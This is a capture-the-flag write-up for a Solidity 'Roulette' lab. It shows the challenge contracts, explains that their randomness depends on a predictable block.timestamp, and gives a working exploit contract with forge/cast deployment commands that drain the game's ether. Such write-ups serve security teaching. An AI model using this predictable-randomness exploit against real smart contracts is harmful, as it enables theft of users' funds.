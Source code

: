 In this Game, we need to have make the *stolenEnough()* bool returns true in order to solve the lab. &nbsp;  
&nbsp;  
```solidity
contract Setup{
    Roulette public roulette;

    constructor() payable {
        roulette = new Roulette{value: 30 ether}();
    }

    function isSolved() public view returns(bool){
        return roulette.stolenEnough();
    }
}
```
&nbsp;  
Now let's see the *Roullete Contract* &nbsp;   
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.25;

contract Roulette{

    bool public stolenEnough = false;
    mapping(address => uint) public wonRoulette;

    modifier _kickedOut(){
        require(wonRoulette[msg.sender] <= 100, "You've stolen enough, get out!");
        _;
    }

    modifier _hasStolenEnough(){
        _;
        if(address(msg.sender).balance > 20){
            stolenEnough = true;
        }
    }

    constructor() payable {}

    function randomGenerator() internal view returns(uint256){
        return uint256(keccak256(abi.encodePacked(block.timestamp))) % 100;
    }

    function biggerRandomGenerator() internal view returns(uint256){
        return uint256(keccak256(abi.encodePacked(block.timestamp))) % 10000000;
    }

    function playRoulette(uint256 _guess) public _kickedOut{
        require(wonRoulette[msg.sender] < 5, "You cannot play this game again!");
        uint256 playerGuess = _guess;
        uint256 randomNumber = randomGenerator();
        if(randomNumber == playerGuess){
            wonRoulette[msg.sender]++;
            (bool winningMoney, ) = msg.sender.call{value: 1 ether}("");
            require(winningMoney, "Fail to claim winning money");
        }
    }

    function playBiggerRoulette(uint256 _guess) public _kickedOut _hasStolenEnough{
        require(wonRoulette[msg.sender] >= 5, "You haven't met the requirement to play the game!");
        uint256 playerGuess = _guess;
        uint256 randomNumber = biggerRandomGenerator();
        if(randomNumber == playerGuess){
            wonRoulette[msg.sender] += 50;
            (bool winningMoney, ) = msg.sender.call{value: 10 ether}("");
            require(winningMoney, "Fail to claim winning money");
        }
    }
    
}
``` 
&nbsp;  
We have 2 modifiers up there, one is *_kickOut()* that will check whether we have scroe of winning about 100 or not, if we are then we can no longer play the game. The second one is *_hasStolenEnough()* this is the one which will check after all the code in the function is complete, if the balance of the player is greeater than 20 Ether, it will change the *stolenEnough* bool to true, so our goal here is to have a Balance greater than 20 Ether. &nbsp;  
&nbsp;  

The first 2 functions below the constructor seems to be the generator of the source of the randomness, and it doesn't seem to be that secure since it use a predictable or at least we can also get that variable the *block.timestamp*, the only difference is the modulo. Both of them are used for different function, the *randomGenerator()* is used by *playRoullete()* and the *biggerRandomGenerator()* is used by *playBiggerRoulette()*.  &nbsp;  
&nbsp;  
So we are dealing with an insecure randomness vulnerability here, let's see the *playRoulette()* first, if we manage to guess the correct number we will get 1 Ether and it adds our winning by 1, so we can only play this maximum of 5 times since when we reach 5 it will revert. The other one, *playBiggerRoullete()* seems to give more reward and won counter, but it require us to have at least 5 win already (so we need to play the smaller one first), if we managed to guess right, we will get 10 ether per win and it will add 50 winning point, so we can only play this twice since it has the *_kickedOut()* modifier and it will also validate our balance by the *_hasStolenEnough()* modifier. &nbsp;  
&nbsp;  
So the Attack Idea here is to play the *playRoulette()* 5 times and then moving to the *playBiggerRoulette()* 2 times, it will give us 25 Ether in total, more than enough to make the *stolenEnough()* to become true, but we can't just play it since it has *block.timestamp* as the source of randomness, we need to make an Exploit contract here, it will look like this &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.25;

import "./Setup.sol";
import "./Roulette.sol";

contract exploit{
    Setup public setup;
    Roulette public roulette;

    constructor(address _setup) {
        setup = Setup(_setup);
        roulette = Roulette(setup.roulette());
    } 

    function randomGenerator() internal view returns(uint256){
        return uint256(keccak256(abi.encodePacked(block.timestamp))) % 100;
    }

    function biggerRandomGenerator() internal view returns(uint256){
        return uint256(keccak256(abi.encodePacked(block.timestamp))) % 10000000;
    }

    function playRoulette() public{
        uint256 answer = randomGenerator();
        uint256 bigAnswer = biggerRandomGenerator();
        for(uint i = 0; i < 5; i ++){
            roulette.playRoulette(answer);
        } 
        roulette.playBiggerRoulette(bigAnswer);
        roulette.playBiggerRoulette(bigAnswer);
    }

    receive() external payable { }    
}
```
&nbsp;  
Now we just need to deploy the contract and call the *playRoulette()* on our smart contract to solve it, here is how you can deploy the Exploit contract. &nbsp;  
&nbsp;  
```bash
// Deploying the Exploit Contract
forge create src/roulette/$EXPLOIT_FILE:$EXPLOIT_NAME -r $RPC_URL --private-key $PK --constructor-args $SETUP_ADDR

// Call the playRoulette()
cast send -r $RPC_URL --private-key $PK $EXPLOIT_ADDR "playRoulette()"
``` 
&nbsp;  
By doing the command above, deploying the contract and calling it, you should've solved the lab!